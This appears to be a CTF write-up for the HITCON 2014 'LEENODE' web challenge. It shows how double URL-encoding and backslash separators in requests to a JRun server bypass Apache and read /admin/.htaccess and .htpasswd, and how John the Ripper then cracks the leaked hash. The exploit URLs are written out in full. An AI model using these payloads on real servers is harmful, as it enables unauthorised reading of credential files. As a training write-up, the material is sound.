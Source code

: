 # HITCON CTF 2014: LEENODE

**Category:** Web
**Points:** 250
**Description:**

> http://203.66.57.98/

## Write-up

[Source](https://wiki.mma.club.uec.ac.jp/CTF/Writeup/HITCON2014/LEENODE) (Modified only slightly for grammar and Markdown formatting)

1. Perhaps what we need to do is access the `/admin/` directory.
2. The server is Apache/2.0.65 (Unix) JRun/4.0 Server.
3. `*.jsp` was redirected to JRun Server.
*  [http://203.66.57.98/a.jsp](http://203.66.57.98/a.jsp)
4. A vulnerability for JRun exists publicly
* [http://www.kb.cert.org/vuls/id/977440](http://www.kb.cert.org/vuls/id/977440)
5. [http://203.66.57.98/a;.jsp](http://203.66.57.98/a;.jsp) gives a 500 Internal Server Error. Interestingly enough Apache serves up this error, not JRun as expected.
6. Escaping the URL for Apache as such [http://203.66.57.98/a%253b.jsp](http://203.66.57.98/a%253b.jsp) gives a 404 Error by JRun instead of the expected Apache.
7. Apache blocks many attempts to read `/.htaccess` and `/admin/.htaccess` so other tricks are needed.
8. It is discovered that JRun recognizes backslash as a directory separator as [http://203.66.57.98/.%5Ca%253b.jsp](http://203.66.57.98/.%5Ca%253b.jsp) was handled as /a by JRun.
9. Eventually `/admin/.htaccess` and `/admin/.htpasswd` are read using the following URLs respectively
[http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp)
[http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp)

`.htaccess` reads as follows:

```
AuthName "Restricted Area"
AuthType Basic
AuthUserFile /usr/local/apache2/htdocs/admin/.htpasswd
AuthGroupFile /dev/null
require valid-user
```

`.htpasswd` reads as follows:


```
hitc0n_1een0de:nlGc3XNhkrL1o
```

10. Let’s use John the Ripper to crack the password:

```
% john .htpasswd
ktw2z            (hitc0n_1een0de)
guesses: 1  time: 0:00:01:13 DONE (Sat Aug 16 20:58:25 2014)  c/s: 5319K  trying: ktkcK - kk4iT
```

The password is `ktw2z`.

11. Visit [http://203.66.57.98/admin/thefl4g.txt](http://203.66.57.98/admin/thefl4g.txt) and get the flag

```
The flag is HITCON{u_d0nt_f0rg3t_d0uble_3nc0ding!}
```

## Other write-ups and resources

* [notes](http://cuby.hu/hitcon-lol-notes-then-not-writeups.txt)
